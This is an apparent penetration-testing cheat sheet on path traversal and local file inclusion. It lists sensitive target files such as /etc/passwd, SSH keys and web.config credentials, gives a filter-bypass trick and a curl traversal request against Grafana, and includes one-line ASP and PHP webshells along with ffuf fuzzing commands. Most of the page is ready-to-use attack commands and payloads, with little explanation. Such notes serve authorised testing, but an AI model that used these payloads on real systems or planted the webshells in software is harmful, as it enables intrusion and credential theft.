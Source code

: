 # 🏞 Path Traversal & File Inclusion

This works with all languages regardless of backend framework.

**Automatic: LFISuite, LFiFreak, and liffy**

**Attack Vectors to Check:**

**Linux**

1. .ssh (try authorized key to check for access and type of key(id\_rsa or id\_ecdsa))
2. config.php
3. /etc/passwd

* To avoid `..` use `cat .?/.*/.?/etc/passwd`
* If `shell_exec` function is allowed try [phpbash](https://github.com/Arrexel/phpbash)

**Windows:**

1. `c:\Windows\System32\Drivers\etc\hosts`
2. IIS logs: `C:\inetpub\logs\LogFiles\W3SVC1\.`
3. IIS config with user and pass: `C:\inetpub\wwwroot\web.config`

* Example in grafana:&#x20;

{% code overflow="wrap" %}
```
curl --path-as-is http://ip:port/public/plugins/alertlist/../../../../../../../../Windows/System32/Drivers/etc/hosts
```
{% endcode %}

_ASP webshell:_ `<% eval request('cmd') %>`&#x20;

_PHP webshell:_ `<?php system($_GET["cmd"]); ?>`

## Scanning

To fuzz for GET parameters:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

Most common in [this link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters) Lfi [wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) [Suggested](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

To fuzz LFI:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

To Fuzz for php files:

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
